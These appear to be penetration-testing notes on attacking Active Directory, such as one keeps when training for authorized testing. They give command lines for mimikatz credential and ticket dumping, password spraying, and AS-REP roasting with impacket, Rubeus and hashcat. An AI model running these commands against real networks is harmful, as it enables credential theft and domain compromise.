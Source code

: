 ![Screenshot of Kerberos Authentication](./images/kerb-auth.png)
- **Cached AD Credentials** - mimikatz
    - `mimikatz> privilege::debug` - engage the `SeDebugPrivilege` privilege, which will allow us to interact with a process owned by another account
	- `mimikatz> token::elevate` - elevate your permissions
	- `mimikatz> sekurlsa::logonpasswords` - dump the credentials of all logged-on users
	- `mimikatz> sekurlsa::tickets` - dump kerberos tickets from memory (Group 0 (TGS) and Group 2 (TGT))
	- lsass is where mimikatz post plaintext passwords.
- **Password Attack**
    - Too many failed logins may block the account for further attacks and possibly alert system administrators, so instead attacker need to cautiously plan brute force attack.
		- `net accounts` → Check fields like Lockout threshold, Lockout duration, Lockout observation window
		- Alternative - `crackmapexec smb <IP> --pass-pol` - Password Policy
		- Due to such policies, the attack like compiling a short list of very common passwords and leveraging it against a massive amount of users i.e. password spraying is considered suitable.
	- Different Ways of password spraying -
        - `.\Spray-Passwords.ps1 -Pass <password> -Admin`
		- `crackmapexec smb <IP> -u <user-file> -p '<password>' -d <domain> --continue-on-success`
		- `.\kerbrute_windows_amd64.exe passwordspray -d <domain> <user-file> "<password>"`
- **AS-REP Roasting** → For all when got initial foothold
	- Enumeration AS-REP Roastable
	    - `PS> Get-DomainUser –PreauthNotRequired` → Identify users with enabled AD user account option `Do not require Kerberos preauthentication`.
    - AS-REP Roasting -
		- `Kali> impacket-GetNPUsers -dc-ip <IP> -request -outputfile hashes.asreproast <domain>/<username>` → Password: `<password>` → Try to find domain user with above option enabled, if found any will store AS-REP message in outputfile that might contain password hash of vulnerable user.
		- Alternative - `PS> .\Rubeus.exe asreproast /nowrap`
        - `Kali> hashcat --help | grep 'AS-REP'` → `18200 | Kerberos 5, etype 23, AS-REP`